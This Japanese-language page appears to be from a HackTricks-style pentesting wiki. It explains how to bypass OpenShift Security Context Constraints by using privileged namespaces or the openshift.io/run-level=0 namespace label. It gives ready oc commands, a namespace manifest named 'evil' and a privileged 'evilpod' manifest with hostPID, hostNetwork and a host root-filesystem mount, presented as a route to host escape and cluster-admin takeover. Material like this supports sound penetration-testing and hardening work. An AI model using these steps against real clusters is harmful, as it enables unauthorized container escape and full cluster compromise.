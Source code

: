 # Openshift - SCC バイパス

{{#include ../../../banners/hacktricks-training.md}}

**このページの元の著者は** [**Guillaume**](https://www.linkedin.com/in/guillaume-chapela-ab4b9a196)

## 特権名前空間

デフォルトでは、SCCは以下のプロジェクトには適用されません：

- **default**
- **kube-system**
- **kube-public**
- **openshift-node**
- **openshift-infra**
- **openshift**

これらの名前空間のいずれかにポッドをデプロイすると、SCCは強制されず、特権ポッドのデプロイやホストファイルシステムのマウントが可能になります。

## 名前空間ラベル

RedHatのドキュメントによると、ポッド上でSCCの適用を無効にする方法があります。以下のいずれかの権限を持っている必要があります：

- 名前空間を作成し、この名前空間にポッドを作成する
- 名前空間を編集し、この名前空間にポッドを作成する
```bash
$ oc auth can-i create namespaces
yes

$ oc auth can-i patch namespaces
yes
```
特定のラベル `openshift.io/run-level` は、ユーザーがアプリケーションのためにSCCを回避することを可能にします。RedHatのドキュメントによると、このラベルが使用されると、その名前空間内のすべてのポッドに対してSCCが適用されず、実質的に制限が取り除かれます。

<figure><img src="../../../images/Openshift-RunLevel4.png" alt=""><figcaption></figcaption></figure>

## ラベルを追加する

名前空間にラベルを追加するには：
```bash
$ oc label ns MYNAMESPACE openshift.io/run-level=0
```
YAMLファイルを通じてラベルを持つネームスペースを作成するには:
```yaml
apiVersion: v1
kind: Namespace
metadata:
name: evil
labels:
openshift.io/run-level: 0
```
今、新しく作成されたすべてのポッドは、名前空間にSCCを持たないはずです。

<pre class="language-bash"><code class="lang-bash"><strong>$ oc get pod -o yaml | grep 'openshift.io/scc'
</strong><strong>$
</strong></code></pre>

SCCがない場合、ポッド定義に制限はありません。これは、悪意のあるポッドがホストシステムに簡単に逃げることができることを意味します。
```yaml
apiVersion: v1
kind: Pod
metadata:
name: evilpod
labels:
kubernetes.io/hostname: evilpod
spec:
hostNetwork: true #Bind pod network to the host network
hostPID: true #See host processes
hostIPC: true #Access host inter processes
containers:
- name: evil
image: MYIMAGE
imagePullPolicy: IfNotPresent
securityContext:
privileged: true
allowPrivilegeEscalation: true
resources:
limits:
memory: 200Mi
requests:
cpu: 30m
memory: 100Mi
volumeMounts:
- name: hostrootfs
mountPath: /mnt
volumes:
- name: hostrootfs
hostPath:
path:
```
今では、ホストシステムへの特権昇格が容易になり、その結果、クラスタ全体を掌握し、「cluster-admin」権限を取得することができます。次のページの**Node-Post Exploitation**部分を探してください：

{{#ref}}
../../kubernetes-security/attacking-kubernetes-from-inside-a-pod.md
{{#endref}}

### カスタムラベル

さらに、ターゲットのセットアップに基づいて、前の攻撃シナリオと同様にカスタムラベル/アノテーションが使用される場合があります。作成されていなくても、ラベルは特定のリソースに対して権限を与えたり、制限したりするために使用される可能性があります。

いくつかのリソースを読むことができる場合は、カスタムラベルを探してみてください。以下は興味深いリソースのリストです：

- Pod
- Deployment
- Namespace
- Service
- Route
```bash
$ oc get pod -o yaml | grep labels -A 5
$ oc get namespace -o yaml | grep labels -A 5
```
## 特権のあるすべての名前空間をリストする
```bash
$ oc get project -o yaml | grep 'run-level' -b5
```
## Advanced exploit

OpenShiftでは、前述のように、`openshift.io/run-level`ラベルを持つ名前空間にポッドをデプロイする権限があると、クラスターの簡単な乗っ取りにつながる可能性があります。クラスター設定の観点から、この機能は**無効にできません**。これはOpenShiftの設計に固有のものです。

しかし、**Open Policy Agent GateKeeper**のような緩和策は、ユーザーがこのラベルを設定するのを防ぐことができます。

GateKeeperのルールを回避し、このラベルを設定してクラスターの乗っ取りを実行するには、**攻撃者は代替手段を特定する必要があります。**

## References

- [https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html](https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html)
- [https://docs.openshift.com/container-platform/3.11/admin_guide/manage_scc.html](https://docs.openshift.com/container-platform/3.11/admin_guide/manage_scc.html)
- [https://github.com/open-policy-agent/gatekeeper](https://github.com/open-policy-agent/gatekeeper)



{{#include ../../../banners/hacktricks-training.md}}
